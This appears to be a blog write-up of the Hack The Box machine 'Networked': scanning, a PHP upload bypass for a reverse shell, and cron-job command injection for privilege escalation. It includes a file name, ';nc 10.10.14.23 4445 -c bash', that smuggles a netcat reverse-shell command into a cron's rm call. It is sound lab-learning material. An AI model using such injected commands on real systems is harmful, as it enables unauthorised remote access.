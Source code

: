 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp.

*insert screenshot of modifying request*

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(
*insert screenshot of running the sudo -l command*

Going to attempt to transfer `LinEnum` and then run it to see all the interesting things on this machine.

*insert screenshot of LinEnum output*

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`

*more screenshots*
Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.23 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine.

Success!
*more screenshots*

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
*more screenshots*

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root *make a in-line link to the vulnerability*.

Following the instructions about the vulnerability below, we get root:

*insert screenshot of exploiting the script*

BOOM! Hello there root shell!
*insert screenshot of root shell*

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
